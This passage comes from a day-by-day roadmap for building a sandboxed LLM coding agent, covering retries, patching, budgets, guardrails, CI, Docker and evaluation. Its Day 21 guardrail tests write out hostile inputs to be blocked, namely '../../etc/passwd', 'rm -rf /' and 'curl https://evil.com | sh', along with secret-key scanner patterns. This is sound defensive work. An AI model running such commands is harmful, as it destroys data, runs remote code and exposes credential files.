#### What to Observe

- How many retries does it take before the agent gives up on an unfixable bug?
- Is the failure report readable enough for a human to understand what went wrong?
- How quickly does the circuit breaker prevent further damage?

#### Questions

- [ ] Why use exponential backoff instead of fixed-interval retries?
- [ ] What is a circuit breaker and what pattern does it prevent?
- [ ] What makes a good failure report for a failed agent task?

#### Tests

- [ ] Unit test: `TestResult` parsing extracts correct pass/fail counts
- [ ] Unit test: retry count reaches MAX_RETRIES then transitions to `failed`
- [ ] Unit test: exponential backoff delays increase correctly
- [ ] Unit test: circuit breaker opens after 3 consecutive errors

#### Definition of Done

- [ ] Reflection node parses test results into structured format
- [ ] Bounded retries with exponential backoff work correctly
- [ ] Circuit breaker prevents cascading API failures
- [ ] Failure reports are human-readable

#### Git Commit

`feat: reflection node with bounded retries, exponential backoff, circuit breaker`

---

### Day 18 -- Patch Application + Auto Re-Indexing

#### Goal
Implement unified diff patch application with dry-run validation and automatic re-indexing of modified files.

#### Concepts

- [[Unified Diff]] -- standard patch format for code changes
- [[Dry-Run Validation]] -- verifying a patch applies cleanly before writing to disk
- [[Incremental Re-Indexing]] -- refreshing AST + embeddings only for modified files
- [[Index Drift]] -- when the search index becomes stale after file modifications

#### Implementation

- [ ] Implement `apply_patch` tool: parse unified diff -> dry-run validate -> apply to disk
- [ ] Implement incremental re-indexing: automatically re-parse AST + refresh embeddings for modified files post-patch
- [ ] Reject invalid patches with typed `PatchError(reason, context)`

#### Experiment

Apply a valid patch and verify the search index reflects the changes. Then attempt to apply a patch that conflicts with the current file state and verify it is rejected.

#### What to Observe

- How long does incremental re-indexing take compared to full re-indexing?
- What information does `PatchError` need for the LLM to fix the patch?
- Does the search index return updated results after re-indexing?

#### Questions

- [ ] Why validate patches with a dry run before applying?
- [ ] What is index drift and why is auto re-indexing critical?
- [ ] What is the difference between a patch that fails to apply and a patch that applies incorrectly?

#### Tests

- [ ] Unit test: valid patch applies correctly
- [ ] Unit test: invalid patch returns `PatchError` without modifying files
- [ ] Unit test: search index updated after patch application
- [ ] Unit test: dry-run validation catches conflicting patches

#### Definition of Done

- [ ] `apply_patch` applies valid diffs and rejects invalid ones
- [ ] Incremental re-indexing refreshes AST + embeddings for modified files
- [ ] `PatchError` provides actionable context for self-correction

#### Git Commit

`feat: apply_patch with dry-run validation, auto re-indexing, typed PatchError`

---

### Day 19 -- Token/Cost Budget Enforcement

#### Goal
Implement per-task token and cost budgets with hard stops and partial result preservation.

#### Concepts

- [[Token Budget]] -- maximum tokens a task can consume
- [[Cost Budget]] -- maximum USD a task can spend on API calls
- [[Hard Stop]] -- immediately halt task when budget exceeded
- [[Partial Results]] -- saving what was accomplished before budget exhaustion

#### Implementation

- [ ] Implement configurable `max_tokens` and `max_cost_usd` per task
- [ ] Check budget before every LLM call -- if exceeded, emit `BudgetExceededEvent`
- [ ] Write partial result to DB on budget exhaustion, transition to `failed` with `reason: budget_exceeded`
- [ ] Expose `tokens_used`, `cost_usd`, `budget_remaining_pct` in task status API

#### Experiment

Set a very low token budget (e.g. 1000 tokens) and submit a complex task. Verify that the task stops at the budget limit with a meaningful partial result and budget exceeded event.

#### What to Observe

- Is the partial result useful or is it garbage?
- How accurate is the cost estimate compared to actual API billing?
- Does the budget check add measurable latency to each LLM call?

#### Questions

- [ ] Why check budget before every call instead of periodically?
- [ ] What is the value of preserving partial results on budget exhaustion?
- [ ] How do you estimate cost from token counts when pricing varies by model?

#### Tests

- [ ] Unit test: budget exceeded triggers `BudgetExceededEvent`
- [ ] Unit test: partial result written to DB on budget exhaustion
- [ ] Unit test: task status API shows `tokens_used`, `cost_usd`, `budget_remaining_pct`
- [ ] Unit test: task transitions to `failed` with `reason: budget_exceeded`

#### Definition of Done

- [ ] Per-task token and cost budgets enforced
- [ ] Partial results preserved on budget exhaustion
- [ ] Task status API exposes budget metrics

#### Git Commit

`feat: per-task token/cost budget with hard stop, partial results, budget metrics`

---

### Day 20 -- Real-World Bug-Fix Testing

#### Goal
Test the full agent on real bug-fix tasks from actual GitHub repositories. Measure performance and write regression tests for every bug found.

#### Concepts

- [[End-to-End Evaluation]] -- testing on real, not synthetic, tasks
- [[Performance Metrics]] -- pass/fail rate, retry count, tokens used, wall-clock time
- [[Regression Testing]] -- every bug found during testing becomes a permanent test

#### Implementation

- [ ] Select 2 real GitHub issues with pre-existing failing tests
- [ ] Run the full agent pipeline on each task
- [ ] Measure: pass/fail, retry count, tokens consumed, wall-clock time
- [ ] Write a regression test for every bug discovered during testing

#### Experiment

Run both tasks multiple times. Compare consistency of results across runs. Identify the most common failure modes.

#### What to Observe

- What is the pass rate on real tasks?
- Where does the agent struggle most -- understanding the problem, finding code, or writing patches?
- How much variance is there between runs of the same task?

#### Questions

- [ ] What makes a good evaluation task for a coding agent?
- [ ] Why write regression tests for bugs found during testing?
- [ ] How do you distinguish agent bugs from test environment issues?

#### Tests

- [ ] End-to-end test: task 1 completes successfully
- [ ] End-to-end test: task 2 completes successfully
- [ ] Regression tests for all bugs discovered during testing

#### Definition of Done

- [ ] 2 real bug-fix tasks tested end-to-end
- [ ] Performance metrics recorded
- [ ] Regression tests written for every bug found

#### Git Commit

`feat: real-world evaluation on 2 GitHub issues, regression tests for discovered bugs`

> [!TIP]
> Buffer risk point: Real repo test suites are noisy -- budget extra time for environment quirks.

---

### Day 21 -- Guardrails with Proof

#### Goal
Implement security guardrails and prove they work with tests that actively attempt each attack vector.

#### Concepts

- [[Path Traversal]] -- escaping workspace via relative paths
- [[Dangerous Command Detection]] -- blocking destructive shell commands
- [[Secrets Scanning]] -- detecting leaked credentials in output
- [[Prompt Injection]] -- untrusted data influencing LLM behavior

#### Implementation

- [ ] Path traversal guard: `../../etc/passwd` and `/workspace/../etc/passwd` -> `ToolError`
- [ ] Dangerous command guard: `rm -rf /` and `curl https://evil.com | sh` -> `ToolError`
- [ ] Secrets scanner: scan file writes and command output for `AKIA*`, `sk-*`, PEM headers -> redact + log `SecurityEvent`
- [ ] Prompt injection defense: tool output wrapped in untrusted-data delimiter before LLM context

#### Experiment

Attempt each attack vector through the tool interface. Verify that every one is blocked, logged, and produces the correct error response.

#### What to Observe

- Does path traversal get caught at the tool level or deeper?
- What patterns does the secrets scanner detect and does it have false positives?
- Does the untrusted-data delimiter prevent the LLM from following injected instructions?

#### Questions

- [ ] Why must each guardrail have a test that tries the attack?
- [ ] What is the difference between blocking and redacting secrets?
- [ ] How effective is delimiter-based prompt injection defense?

#### Tests

- [ ] Security test: path traversal blocked with `ToolError`
- [ ] Security test: dangerous commands blocked with `ToolError`
- [ ] Security test: secrets redacted from output + `SecurityEvent` logged
- [ ] Security test: prompt injection delimiter prevents LLM manipulation

#### Definition of Done

- [ ] All four guardrails implemented and tested
- [ ] Each guardrail has a test that attempts the attack
- [ ] Security events logged for all detected threats

#### Git Commit

`feat: guardrails with proof tests (path traversal, dangerous cmds, secrets, injection)`

> [!TIP]
> Phase 3 checkpoint: closed agent loop, tested guardrails, bounded failure modes.

---

## Phase 4 -- Hardening Sprint

### Day 22 -- Authentication + Rate Limiting

#### Goal
Add API key authentication and per-key rate limiting to protect the service from unauthorized and excessive use.

#### Concepts

- [[API Key Authentication]] -- `Depends(require_api_key)` on all protected routes
- [[Rate Limiting]] -- per-key request caps with `429 Too Many Requests`
- [[Retry-After Header]] -- informing clients when to retry

#### Implementation

- [ ] Implement API key validation as FastAPI `Depends(require_api_key)` on all `/tasks` and `/ws` routes
- [ ] Implement per-key rate limiting with `429 Too Many Requests` + `Retry-After` header
- [ ] Write integration tests for all auth scenarios

#### Experiment

Send requests with no key, a wrong key, and a valid key. Then send requests at a rate exceeding the limit and verify the 429 response.

#### What to Observe

- What is the response time overhead of API key validation?
- How does rate limiting behave at the boundary (exactly at the limit)?
- Is the `Retry-After` header accurate?

#### Questions

- [ ] Why use API keys instead of JWT for this use case?
- [ ] What is the difference between rate limiting and throttling?
- [ ] Where should API keys be stored -- environment variables, database, or vault?

#### Tests

- [ ] Integration test: 401 returned for missing API key
- [ ] Integration test: 403 returned for invalid API key
- [ ] Integration test: 429 returned when rate limit exceeded
- [ ] Integration test: 200 returned for valid API key within rate limit

#### Definition of Done

- [ ] All protected routes require valid API key
- [ ] Rate limiting enforced per key with 429 response
- [ ] All auth integration tests pass

#### Git Commit

`feat: API key authentication, per-key rate limiting with 429 + Retry-After`

---

### Day 23 -- Prometheus Observability

#### Goal
Add Prometheus-compatible metrics and structured logging with correlation IDs for full observability.

#### Concepts

- [[Prometheus Metrics]] -- counters, histograms, and gauges at `/metrics`
- [[Latency Histograms]] -- p50, p95, p99 response time tracking
- [[Structured Logging]] -- every log line tagged with `task_id`, `tool_name`, `duration_ms`, `status`

#### Implementation

- [ ] Expose `GET /metrics` with Prometheus format
- [ ] Implement metrics: `agent_tasks_total{status}`, `agent_task_duration_seconds` (histogram p50/p95/p99), `agent_tool_calls_total{tool_name,status}`, `agent_tokens_used_total{model}`, `agent_cost_usd_total{model}`, `agent_active_tasks` (gauge)
- [ ] Ensure every log line includes `task_id`, `tool_name`, `duration_ms`, `status`

#### Experiment

Run several tasks and query the `/metrics` endpoint. Calculate p95 latency from the histogram. Filter logs by `task_id` to trace a single task's lifecycle.

#### What to Observe

- What is the p95 task duration?
- Which tools are called most frequently?
- Can you reconstruct a task's full lifecycle from logs alone?

#### Questions

- [ ] What is the difference between a counter, histogram, and gauge?
- [ ] Why track p99 latency in addition to p50?
- [ ] What makes structured logging more useful than unstructured?

#### Tests

- [ ] Integration test: `/metrics` returns valid Prometheus format
- [ ] Unit test: each metric increments correctly
- [ ] Unit test: log lines contain required fields

#### Definition of Done

- [ ] Prometheus metrics exposed at `/metrics`
- [ ] Latency histogram captures p50/p95/p99
- [ ] All log lines contain `task_id`, `tool_name`, `duration_ms`, `status`

#### Git Commit

`feat: Prometheus metrics at /metrics, structured logging with correlation IDs`

---

### Day 24 -- CI Pipeline

#### Goal
Set up GitHub Actions CI that runs linting, type checking, tests, and Docker image build on every PR.

#### Concepts

- [[GitHub Actions]] -- CI/CD pipeline as code
- [[Type Checking]] -- `mypy --strict` for type safety
- [[Code Coverage]] -- tracking test coverage with threshold enforcement
- [[Docker Image Build]] -- building the production image in CI

#### Implementation

- [ ] Create `.github/workflows/ci.yml`: `ruff check`, `ruff format --check`, `mypy --strict`, `pytest` (unit + integration + security tests), Docker image build
- [ ] Fail PR if coverage drops below threshold
- [ ] Add CI badge + coverage badge to README

#### Experiment

Push a PR with a type error and verify that CI catches it. Push a PR that drops test coverage below the threshold and verify it fails.

#### What to Observe

- How long does the full CI pipeline take?
- What is the most common cause of CI failures?
- Does `mypy --strict` catch real bugs or just style issues?

#### Questions

- [ ] Why run security tests in CI, not just locally?
- [ ] What is the right coverage threshold -- 80%, 90%, or 100%?
- [ ] Why include Docker image build in CI even if you are not deploying?

#### Tests

- [ ] CI test: `ruff check` passes
- [ ] CI test: `mypy --strict` passes
- [ ] CI test: all pytest suites pass
- [ ] CI test: Docker image builds successfully

#### Definition of Done

- [ ] CI pipeline runs on every PR
- [ ] Type errors and coverage drops fail the build
- [ ] CI and coverage badges in README

#### Git Commit

`feat: GitHub Actions CI with lint, type-check, tests, Docker build, badges`

> [!TIP]
> Buffer risk point: Address `mypy` type annotations incrementally starting Day 1 to avoid a backlog on Day 24.

---

### Day 25 -- Containerization + Docker Compose

#### Goal
Containerize the full application with a multi-stage Dockerfile and docker-compose for one-command deployment.

#### Concepts

- [[Multi-Stage Dockerfile]] -- builder stage for dependencies, minimal runtime stage
- [[Docker Compose]] -- orchestrating multiple services
- [[Non-Root Container]] -- running as unprivileged user in production
- [[Environment Configuration]] -- all config from environment variables

#### Implementation

- [ ] Create multi-stage Dockerfile: builder -> minimal runtime image
- [ ] Run as non-root user, all config from environment variables
- [ ] Create `docker-compose.yml`: `app` (FastAPI) + `db` (Postgres) + sandbox runtime
- [ ] Verify: `docker-compose up` from clean checkout -> `POST /tasks` works immediately

#### Experiment

Run `docker-compose up` from a completely clean checkout (no local Python, no venv). Submit a task via `curl` and verify the full pipeline works.

#### What to Observe

- How large is the final Docker image?
- How long does cold start take?
- Are all environment variables correctly passed to the container?

#### Questions

- [ ] Why use a multi-stage Dockerfile instead of a single stage?
- [ ] What is the security benefit of running as non-root?
- [ ] What should be in `.dockerignore`?

#### Tests

- [ ] Integration test: `docker-compose up` starts all services
- [ ] Integration test: `POST /tasks` works after cold start
- [ ] Unit test: no secrets baked into Docker image

#### Definition of Done

- [ ] Multi-stage Dockerfile produces minimal image
- [ ] `docker-compose up` starts full stack from clean checkout
- [ ] Non-root execution configured
- [ ] All config from environment variables

#### Git Commit

`feat: multi-stage Dockerfile, docker-compose one-command deployment`

---

### Day 26 -- Concurrency + Load Testing

#### Goal
Verify the system handles concurrent tasks correctly under load, with proper rate limiting and database integrity.

#### Concepts

- [[Load Testing]] -- verifying system behavior under concurrent load
- [[Database Concurrency]] -- ensuring writes do not corrupt under parallel access
- [[Resource Limits Under Load]] -- containers get correct limits even when many are running

#### Implementation

- [ ] Fire 10 tasks simultaneously
- [ ] Confirm rate limiting fires correctly under load
- [ ] Confirm DB handles concurrent writes without corruption
- [ ] Confirm containers get correct resource limits under load
- [ ] Write a regression test for every load-test failure

#### Experiment

Submit 10 tasks in rapid succession. Monitor resource usage, database state, and container count. Look for race conditions, deadlocks, or resource leaks.

#### What to Observe

- Does the queue handle 10 simultaneous submissions without dropping tasks?
- Are there any database write conflicts?
- How many containers can run simultaneously before hitting host resource limits?

#### Questions

- [ ] What is the difference between load testing and stress testing?
- [ ] How do you detect a database write conflict?
- [ ] What resource is most likely to be exhausted first under load?

#### Tests

- [ ] Load test: 10 simultaneous tasks complete without errors
- [ ] Load test: rate limiting returns 429 under excessive load
- [ ] Load test: database remains consistent after concurrent writes

#### Definition of Done

- [ ] 10 concurrent tasks handled correctly
- [ ] Rate limiting works under load
- [ ] Database integrity maintained
- [ ] Regression tests for all failures

#### Git Commit

`feat: concurrency load test, 10 simultaneous tasks, database integrity verified`

---

### Day 27 -- Evaluation Suite + Tracing

#### Goal
Build an automated evaluation suite that measures agent performance on real tasks, with LLM call tracing for debugging.

#### Concepts

- [[Evaluation Suite]] -- automated benchmark of agent performance on real tasks
- [[LLM Tracing]] -- recording every LLM call with context, tokens, and latency
- [[Nightly CI]] -- scheduled evaluation runs separate from PR CI
- [[Baseline Metrics]] -- pass rate threshold for detecting regressions

#### Implementation

- [ ] Wire 3-5 real GitHub issues as evaluation tasks
- [ ] Run as a scheduled CI job (nightly, not every PR)
- [ ] Measure pass rate, avg tokens/cost, avg time-to-complete
- [ ] Implement Langfuse or LangSmith tracing: every LLM call traced with `task_id`, tokens, latency
- [ ] Alert if pass rate drops below baseline

#### Experiment

Run the full eval suite and examine the tracing output. Identify which tasks consistently fail and which LLM calls are most expensive.

#### What to Observe

- What is the baseline pass rate across evaluation tasks?
- Which tasks are most expensive in tokens and wall-clock time?
- Does tracing reveal any patterns in agent failures?

#### Questions

- [ ] Why run evaluations nightly instead of on every PR?
- [ ] What pass rate threshold indicates a regression?
- [ ] How does tracing differ from logging?

#### Tests

- [ ] Eval test: all evaluation tasks complete (pass or fail with report)
- [ ] Integration test: tracing records every LLM call
- [ ] Integration test: alert fires when pass rate drops below baseline

#### Definition of Done

- [ ] Eval suite runs nightly in CI
- [ ] Pass rate, token cost, and time-to-complete measured
- [ ] LLM call tracing operational
- [ ] Baseline alerts configured

#### Git Commit

`feat: evaluation suite with nightly CI, LLM tracing, baseline alerting`

---

### Day 28 -- Security Review Pass

#### Goal
Comprehensive security review: re-run all security tests, audit for secrets leakage, and scan the Docker image for vulnerabilities.

#### Concepts

- [[Security Audit]] -- systematic review of all security controls
- [[Secrets Leakage]] -- ensuring credentials never appear in logs, DB, or API responses
- [[Container Image Scanning]] -- `trivy` for known CVEs
- [[Defense Verification]] -- re-running all previously written security tests

#### Implementation

- [ ] Re-run Day 11 sandbox security tests
- [ ] Re-run Day 21 guardrail tests
- [ ] Run a task that touches a fake `.env` with fake secrets -- assert nothing appears in logs or DB
- [ ] Audit Docker image: non-root, no unnecessary packages, no baked-in secrets
- [ ] Run `trivy` scan -- zero critical CVEs

#### Experiment

Create a `.env` file with fake AWS keys and API tokens. Run a task that reads this file. Search all logs, database records, and API responses for any trace of the secrets.

#### What to Observe

- Do any secrets appear in logs, DB, or API responses?
- Does `trivy` find any critical vulnerabilities?
- Are all security tests from Days 11 and 21 still passing?

#### Questions

- [ ] What is the most common way secrets leak in agent systems?
- [ ] Why scan Docker images for CVEs even if you did not introduce the vulnerability?
- [ ] What is the difference between a critical and high CVE?

#### Tests

- [ ] Security test: all Day 11 sandbox tests pass
- [ ] Security test: all Day 21 guardrail tests pass
- [ ] Security test: no secrets in logs or DB after processing fake credentials
- [ ] Security test: `trivy` scan reports zero critical CVEs

#### Definition of Done

- [ ] All security tests pass
- [ ] No secrets leakage detected
- [ ] Docker image clean of critical CVEs
- [ ] Security audit documented

#### Git Commit

`feat: security review pass, secrets audit, trivy scan, all security tests green`

> [!TIP]
> Phase 4 checkpoint: deployable, observable, rate-limited, tested system.

---

## Phase 5 -- Final Integration + Demo

### Day 29 -- Architecture Documentation + Runbook

#### Goal
Write comprehensive documentation: architecture README with Mermaid diagram, operational runbook, and complete OpenAPI documentation.

#### Concepts

- [[Architecture Documentation]] -- system diagram, component descriptions, data flow
- [[Runbook]] -- operational guide for deployment, monitoring, and troubleshooting
- [[OpenAPI Documentation]] -- all endpoints and schemas described with examples

#### Implementation

- [ ] Write architecture README with Mermaid system diagram (client -> FastAPI -> LangGraph -> sandbox -> DB)
- [ ] Document component descriptions, data flow, and tech stack
- [ ] Write runbook: deploy steps, key rotation, how to read `/metrics`, how to filter logs by `task_id`, common failure modes
- [ ] Review `/docs` -- all endpoints and schemas described with examples

#### Experiment

Give the README to someone unfamiliar with the project. Can they understand the architecture from the diagram alone? Can they deploy using the runbook?

#### What to Observe

- Is the Mermaid diagram readable at a glance?
- Does the runbook cover all common failure modes?
- Are all API endpoints documented with examples?

#### Questions

- [ ] What is the most important thing to convey in an architecture diagram?
- [ ] What failure modes should a runbook cover?
- [ ] What makes OpenAPI documentation useful vs just present?

#### Tests

- [ ] Review: README contains Mermaid architecture diagram
- [ ] Review: runbook covers deploy, key rotation, metrics, logs, failures
- [ ] Review: `/docs` has examples for all endpoints

#### Definition of Done

- [ ] Architecture README with Mermaid diagram
- [ ] Operational runbook complete
- [ ] OpenAPI documentation reviewed and examples added
- [ ] `docs/` directory organized

#### Git Commit

`docs: architecture README, Mermaid diagram, runbook, OpenAPI review`

---

### Day 30 -- Fresh-Clone Deploy + Demo Recording

#### Goal
Verify the entire project works from a clean checkout. Record a demo. Tag v1.0.0.

#### Concepts

- [[Fresh-Clone Verification]] -- proving the project works without local state
- [[Demo Recording]] -- GIF or video showing the agent in action
- [[Release Tagging]] -- semantic versioning for the first release

#### Implementation

- [ ] Clone into a clean directory, follow README exactly
- [ ] Run `docker-compose up`
- [ ] Run the full eval suite
- [ ] Record a demo (GIF or video): submit task -> live streaming events -> test suite passes
- [ ] Fix anything that breaks during the fresh-clone
- [ ] Tag `v1.0.0`

#### Experiment

Follow the README as if you have never seen this project. Note every step that is unclear, missing, or fails. Fix them all before tagging.

#### What to Observe

- Does `docker-compose up` work on the first try from a clean checkout?
- How long does cold start take?
- Is the demo compelling enough to show in an interview?

#### Questions

- [ ] What is the most common reason fresh-clone deployments fail?
- [ ] What makes a demo video compelling vs forgettable?

#### Tests

- [ ] Integration test: `docker-compose up` from clean checkout succeeds
- [ ] Integration test: eval suite passes after fresh deploy
- [ ] Review: demo recording shows complete task lifecycle

#### Definition of Done

- [ ] Fresh-clone deployment works end-to-end
- [ ] Eval suite passes
- [ ] Demo GIF/video recorded and embedded in README
- [ ] `v1.0.0` tagged
- [ ] All documentation finalized

#### Git Commit

`release: v1.0.0 — fresh-clone verified, demo recorded, eval suite passing`

---

## Final Checklist

### Foundation
- [ ] Typed config via `pydantic-settings` (zero hardcoded secrets)
- [ ] Structured JSON logging with `task_id` on every line
- [ ] System prompt design and trajectory logging
- [ ] Tool dispatch tested with mocked LLM
- [ ] Retry/backoff on LLM API calls
- [ ] Token/cost tracked and stored per task
- [ ] FastAPI: health, readiness, WebSocket, OpenAPI
- [ ] Graceful SIGTERM shutdown (drain in-flight)
- [ ] SQLAlchemy + Alembic task persistence
- [ ] WebSocket integration test: task -> events -> DB record

### Sandbox
- [ ] `WorkspaceManager` with typed `WorkspaceError`
- [ ] `execute_command` async generator: output cap + timeout
- [ ] Container hardening: mem, cpu, pids, read-only fs, no network
- [ ] Security tests: network, fs escape, fork bomb, OOM, path traversal -- all passing

### Code Intelligence
- [ ] tree-sitter: symbol extraction, file structure, definition lookup (Python target)
- [ ] Semantic search via ChromaDB: natural-language code queries
- [ ] Hybrid search: exact match preferred, semantic fallback
- [ ] Auto re-indexing after `apply_patch` modifications

### Agent Loop
- [ ] LangGraph typed state with checkpoint persistence
- [ ] Context window management: history trimming / sliding window in `AgentState`
- [ ] Planning Node: structured output + retry-on-malformed
- [ ] Execution Node: typed error taxonomy, no swallowed exceptions
- [ ] Reflection Node: bounded retries + circuit breaker
- [ ] `apply_patch`: dry-run validation before write + auto re-index
- [ ] Token/cost budget: hard stop + partial result
- [ ] Guardrails tested: path traversal, dangerous cmds, secrets, prompt injection

### Hardening
- [ ] API key auth + per-key rate limiting (429)
- [ ] Prometheus `/metrics` with p99 latency histogram
- [ ] CI: lint, type-check, tests, Docker build on every PR
- [ ] Multi-stage Dockerfile + docker-compose: one-command start
- [ ] Concurrency load test: 10 simultaneous tasks
- [ ] Eval suite: nightly CI, pass-rate report
- [ ] Full security review: guardrail tests, no secrets in logs/DB, non-root image, trivy clean

### Portfolio
- [ ] README with Mermaid architecture diagram
- [ ] Runbook: deploy, key rotation, metrics, logs, failures
- [ ] OpenAPI: all endpoints and schemas documented
- [ ] Demo GIF/video in README
- [ ] `v1.0.0` tagged
- [ ] Fresh-clone verified end-to-end

---

## High-Risk Points + Fallback Plan

### Timeline Risk Points
- **Day 12** (tree-sitter setup and extraction): Expect setup friction; restrict scope strictly to Python source files.
- **Day 15** (LangGraph state and checkpointing): Allocate extra time if using LangGraph for the first time.
- **Day 20** (Real-repo bug-fix execution): Live test suites are noisy -- budget time for environment quirks.
- **Day 24** (CI mypy strictness): Address type annotations incrementally starting Day 1 to avoid backlog.

### Fallback Order (If Behind Schedule)
1. Skip Day 26 load test -- note as a known gap in README
2. Trim eval suite from 5 to 3 issues
3. Skip Langfuse/LangSmith -- structured logs still give debuggability
4. Defer semantic search (Day 13) -- exact-match symbol search alone still enables code navigation

> [!CAUTION]
> Do NOT cut: security tests (Days 11, 21, 28), auto re-indexing (Day 18), context window trimming (Day 15), or bounded-retry/circuit-breaker (Day 17). Those are what separate "production grade" from "works on my machine."

---

## Future Improvements (Post Day 30)

- [ ] **Multi-Tenant RBAC** -- role-based access control for shared deployments
- [ ] **Kubernetes Deployment** -- Helm charts, horizontal pod autoscaling
- [ ] **Human-in-the-Loop UI** -- approval gates for high-risk operations
- [ ] **gVisor/Firecracker** -- stronger sandbox isolation than Docker
- [ ] **Multi-Language Support** -- tree-sitter grammars for TypeScript, Go, Rust
- [ ] **Parallel Task Execution** -- multiple agents working on subtasks concurrently
- [ ] **Fine-Tuned Models** -- task-specific model distillation for cost reduction
- [ ] **Webhook Notifications** -- Slack/Discord integration for task completion events
- [ ] **Session Resumption** -- pick up interrupted tasks from checkpoint state
- [ ] **Cost Optimization** -- automatic model routing based on task complexity

---

#coding-agent #python #llm #docker #langgraph #fastapi #systems #portfolio #roadmap
